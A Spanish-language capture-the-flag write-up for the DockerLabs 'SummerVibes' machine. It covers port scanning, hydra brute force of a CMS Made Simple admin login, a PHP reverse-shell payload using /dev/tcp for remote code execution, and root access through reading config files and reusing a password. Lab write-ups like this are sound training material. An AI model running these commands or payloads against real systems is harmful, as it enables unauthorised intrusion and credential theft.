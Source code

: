 # Máquina SummerVibes

Dificultad -> Difícil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d119f1fa4816af8a4a892d7889e92d94 (ECDSA)
|_  256 b8b72e643eeec32e2ebe99074e024f16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Echamos un vistazo a la web que corre por el puerto 80. Se trata de la web por defecto de apache. 
Revisando el código fuente encontramos un comentario que nos da una pista:

![Pasted image 20240428141237](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/09748c7a-d163-47c6-b417-a9d54638bb5b)

Si accedemos a ese directorio encontramos un gestor de contenido:

![Pasted image 20240428141316](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2ca7cda8-8221-47da-ade7-28012a94b951)

Aplicamos **fuzzing** sobre la web con **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/cmsms/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,txt,html,php.bak
-------------------------------------------------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 19671]
/modules              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/modules/]
/uploads              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/uploads/]
/doc                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/doc/]    
/admin                (Status: 301) [Size: 314] [--> http://172.17.0.2/cmsms/admin/]  
/assets               (Status: 301) [Size: 315] [--> http://172.17.0.2/cmsms/assets/] 
/lib                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/lib/]    
/config.php           (Status: 200) [Size: 0]                                         
/tmp                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/tmp/]  
```

Encontramos directorios interesantes como **/admin**, **/uploads**, etc.
Dentro del directorio **/admin** encontramos un panel de **login**:

![Pasted image 20240428145810](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9685e43c-aa7b-4ad5-ae06-4f8aa537c03b)

Usando **whatweb** sobre la web principal, encontramos la versión del gestor de contenido -> **CMS-Made-Simple[2.2.19]**


--------------
## Explotación


Haciendo un poco de búsqueda, vemos que hay algunas vulnerabilidades para esta versión, pero que sucede con usuarios autenticados con privilegios administrativos.

[CVE-Details](https://www.cvedetails.com/cve/CVE-2024-27622/)
![Pasted image 20240428142536](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f1b6cad1-1b48-4abb-b45d-dfc9bdddfa32)


[Github CVE Reference](https://github.com/capture0x/CMSMadeSimple)
![Pasted image 20240428142725](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9dec9e60-3dfa-436d-bb52-be7a7bb85ba3)

Aplicaremos fuerza bruta sobre el panel de login con **hydra**:
Para ello, analizamos la **data** que se tramita al intentar hacer login en el panel de admin que encontramos anteriormente y la usamos en hydra:

![Pasted image 20240428150255](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc0840e2-037c-483c-8440-91daa97ed33d)

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" 
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
```

Encontramos las credeciales de admin -> **admin:chocolate**
Nos logeamos.

Es el momento de volver al exploit que encontramos antes -> [Github CVE Reference](https://github.com/capture0x/CMSMadeSimple)
Seguimos los pasos.
 
 - Extensions -> User Defined Tags

![Pasted image 20240428152312](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/263f11fe-f143-41f7-ad30-58ce125c1e00)

- Add User Defined Tag -> Introducimos el Payload -> Run

![Pasted image 20240428152534](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1520cbfc-c2dd-42e7-8a7c-25da705225b6)

Tenemos **RCE** (Remote Comand Execution)

Nos ponemos en escucha con **netcat** para ganar acceso al sistema y nos enviamos una **reverse shell**:

Máquina atacante:

```shell
sudo nc -nlvp 443
```

Payload:

```php
<?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1" '); ?>
```

Run.

Estamos dentro !

------------------------------

Aplicamos el tratamiento de la **tty** para operar de forma cómoda.

------------
## Escalada de privilegios

```shell
ps -faux
```
![Pasted image 20240428153452](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/dcb57cae-722c-4dad-a737-1e5f44408c11)

Vemos que está corriendo una base de datos de forma interna.
Listaremos por archivos **config** para tratar de encontrar las credenciales:

```shell
find -name \*config\* 2>/dev/null
```

Abrimos el archivo -> **/var/www/html/cmsms/config.php**

```shell
cat /var/www/html/cmsms/config.php
----------------------------------------
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'cms';
$config['db_password'] = 'cms';
$config['db_name'] = 'test';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'UTC';
```

Usaremos las credenciales -> **cms:cms** para conectarnos a la base de datos.

```shell
mysql -H localhost -u cms -p
---------------------------------
ERROR 1044 (42000): Access denied for user 'cms'@'localhost' to database '172.17.0.2'
```

No nos permite conectarnos. Tras más reconocimiento del sistema, finalmente, la contraseña **chocolate** había sido reutilizada para el usuario **root**.

```shell
su root
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema.
